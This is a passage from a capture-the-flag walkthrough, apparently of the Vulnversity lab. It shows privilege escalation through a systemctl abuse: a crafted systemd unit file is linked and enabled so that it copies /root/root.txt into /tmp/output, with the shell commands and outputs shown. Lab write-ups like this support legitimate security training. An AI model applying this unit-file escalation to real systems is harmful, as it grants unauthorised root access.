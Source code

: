 ```
www-data@vulnuniversity:/home/bill$ vuln=$(mktemp).service
```

<br />

Then populating it with the contents of the exploit, changing the `id` piece to point to the file we want to read:

```
www-data@vulnuniversity:/home/bill$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $vuln
```

<br />

We have now created a `unit file` that will read the contents of `/root/root.txt` and export them to the `/tmp/output` file. The remaining steps according to the exploit is to link the `unit file` with `systemctl` and start it.

```
www-data@vulnuniversity:/home/bill$ systemctl link $vuln
Created symlink from /etc/systemd/system/tmp.74hJvCHt6u.service to /tmp/tmp.74hJvCHt6u.service.
www-data@vulnuniversity:/home/bill$ systemctl enable --now $vuln
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.74hJvCHt6u.service to /tmp/tmp.74hJvCHt6u.service.
www-data@vulnuniversity:/home/bill$ 
```

<br />

Looks like the exploit worked and the `/tmp/output` file has indeed been created:

```
www-data@vulnuniversity:/home/bill$ ls -la /tmp
total 40
drwxrwxrwt  8 root     root     4096 Jun 13 06:12 .
drwxr-xr-x 23 root     root     4096 Jul 31  2019 ..
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .ICE-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .Test-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .X11-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .XIM-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .font-unix
-rw-r--r--  1 root     root       33 Jun 13 06:12 output
drwx------  3 root     root     4096 Jun 13 03:35 systemd-private-9d4c6fdc98ad4682889d40fb7a837b37-systemd-timesyncd.service-SGEtU4
-rw-------  1 www-data www-data    0 Jun 13 06:08 tmp.74hJvCHt6u
-rw-rw-rw-  1 www-data www-data  103 Jun 13 06:09 tmp.74hJvCHt6u.service
```

<br />

The contents of which print the `root/root.txt` flag for us:

```
www-data@vulnuniversity:/home/bill$ cat /tmp/output 
a58ff**********************c7fd5
```

<br />

Congrats, you just pwned Vulnversity!

<br />
